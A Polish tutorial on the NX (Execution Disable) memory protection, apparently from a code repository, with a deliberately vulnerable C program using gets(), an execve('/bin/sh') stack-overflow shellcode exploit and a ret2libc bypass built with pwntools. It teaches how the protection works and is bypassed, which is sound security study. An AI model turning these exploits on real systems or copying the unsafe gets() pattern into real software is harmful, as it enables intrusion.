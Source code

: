 # Execution Disable
## Opis
`Execution Disable`, zwane też `Executable space protection`, `NX` lub `W^X` oznacza obszary pamięci jako `non-executable`. Wykonywanie tak oznaczonego kodu spowoduje SEGFAULT oraz zabicie procesu.

Najczęstszą implementacją `Execution Disable` jest `NX bit` - sprzętowa implementacja stosowana w większości procesorów (x86 - intel pod nazwą `XD`, amd pod nazwą `NX bit` oraz ARM - pod nazwą `execute never`).

Możliwa jest też software'owa emulacja (nie na Windowsie) tej funkcjonalności ale wiąże się to ze znacznym spadkiem wydajności.
Niektóre dystrybucje linuxa x86-32bit mają domyślnie wyłączony NX bit (ubuntu, fedora).

NX zapobiega bezpośredniemu wykonywaniu wstrzykniętego na stos kodu. Pomimo tego w przypadku zastosowania niebezpiecznych funkcji nie powstrzymuje nas on przed atakami jedynie sterującymi działaniem programu, np `ret2libc`.

## Clang i GCC

W obydu kompilatorach NX jest defaultowo włączony. W obydu kompilatorach możemy wyłączyć nx przez flagę `-z execstack`.

## Exploit 1 - BOF z shellcode
### Podatna aplikacja
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func() {
  char input[16];

  printf("Please enter your name: \n");
  gets(input);

  printf("Hi %s\n", input);
}

int main() {
  func();
  return 0;
}
```

W exploicie wykożystuje użycie niebezpiecznej funkcji `gets()` pozwalającej na `BOF`.

Do automatyzacji exploitu wykorzystuje `pwntools`.

### Krok 1

W kroku 1 muszę znaleźć offset po którym zostanie nadpisany rejestr `eip`. Robię to za pomocą funckji [cyclic](https://docs.pwntools.com/en/stable/util/cyclic.html) generującej ciąg znaków `aaaabaaacaaa` dowolnej długości.

```python
io.sendline(cyclic(100, n=4))
io.wait()
core = io.corefile
eip_offset = cyclic_find(pack(core.eip))
info("eip offset = %d", eip_offset)
```

Po crashu pwntoolsy zczytują rejestr eip i sprawdzany jest offset.

![](https://i.imgur.com/Gd71A3S.png)

Do rejestru trafiło `haaa` więc offset to 28.

### Krok 2

Następnie trzeba sprawdzić adres naszego inputu na stosie.

![](https://i.imgur.com/UKGoxvK.png)

Adres naszego shellcode =`0xffffd130 + eip_offset + 4`

### Krok 3

W 3 kroku do naszego inputu doklejamy shellcode. Dla skrócenia kodu używam shellcode generowanego przez pwntools.

Przykładowy shellcode opiera się na wykonaniu syscalla `execve` z argumentem `/bin/sh`.

```nasm
xor eax, eax 
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, eax
mov edx, eax
push 0xb
pop eax
int 0x80
```

Powyższy przykładowy shellcode zeruje rejestr `eax`, umieszcza string `/bin/sh` na stosie, umieszcza pointer do stringa w `ebx`, zeruje `ecx i edx`, ustawia wartość `0xb` w `eax` oraz wykonuje syscall instrukcją `int 0x80`

Wykonując tak przygotowanego exploita otrzymujemy basha: 

![](https://i.imgur.com/Ge9gu2A.png)

W przypadku zastosowania exploita na aplikacji skompilowanej z nx otrzymujemy segfaulta:

![](https://i.imgur.com/zMg5sk1.png)

## Exploit 2 - ret2libc

Przykładem exploita omijającego nx jest `ret2libc`. Zamiast wykonywać shellcode umieszczony na stosie w tym exploicie odwołamy się jedynie do funkcji `system()` zawartej w `libc` ze stringiem `/bin/sh` również zawartym w libc `libc`.

### Krok 1
Analogicznie do poprzedniego exploita znajdujemy offset. Potem potrzebujemy odnaleźć adresy `libc`, `system()`, `/bin/sh`, oraz `exit()`. Można zrobić to za pomocą gdb albo pwntools.

Skrypt wyszukujący adresy:

```python
libc_addr = core.libc.start

libc = ELF("/usr/lib/i386-linux-gnu/libc-2.31.so")

binsh_addr = next(core.search(b"/bin/sh"))
sys_addr = libc.symbols["system"] + libc_addr
exit_addr = libc.symbols["exit"] + libc_addr
```

### Krok 2
Sklejamy i wysyłamy exploita:

```python
payload = b"a"*eip_offset
payload += p32(sys_addr)
payload += p32(exit_addr)
payload += p32(binsh_addr)
```

![](https://i.imgur.com/zJWyOlY.png)

## Wnioski 
NX jest prostym zabezpieczeniem zapobiegającym najprostszym atakom BOF. Nie odbija się negatynie na wydajności więc pomimo łatwości obejścia powinno być ono uniwersalnie implementowane.
